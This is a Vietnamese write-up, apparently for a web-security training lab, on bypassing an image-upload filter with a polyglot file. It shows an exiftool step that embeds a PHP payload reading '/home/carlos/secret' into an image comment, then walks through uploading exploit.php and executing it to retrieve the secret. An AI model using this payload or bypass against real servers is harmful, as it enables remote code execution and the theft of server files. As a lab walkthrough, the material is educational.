 Ta có thể tải bất kỳ tệp nào lên server nhưng phải thỏa mãn nó là hình ảnh (PNG/JPG) vì nó là avatar mà. Server sẽ xác thực signature của file như ví dụ mình nêu trên. Do đó, ta sẽ sử dụng trick để "ép" 1 file chừa RCE code thành 1 file thỏa điều kiện của server.

[exiftool](https://github.com/exiftool/exiftool) là một trong những công cụ tối ưu hỗ trợ việc thay đổi metadata của file. Ta sẽ sử dụng nó để thay đổi "dấu hiệu" trong file để làm server nghĩ rằng đó là một file hình ảnh và ta sẽ thêm `-Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"` vào file exploit.php mà exiftool sẽ tạo ra:

![Sử dụng exiftool](polygot-webshell/create-polygot.jpg)

Upload [exploit.php](obfuscated-extensions/exploit.php) lên server:

![Upload exploit.php lên server](polygot-webshell/upload.jpg)

Server không chặn việc ta tải lên nữa rồi =)))). GET bí mật bằng cách cho nó thực thi thôi:

![Lab](polygot-webshell/bypass.jpg)

Và submit bí mật:

![Submit](polygot-webshell/solved.jpg)
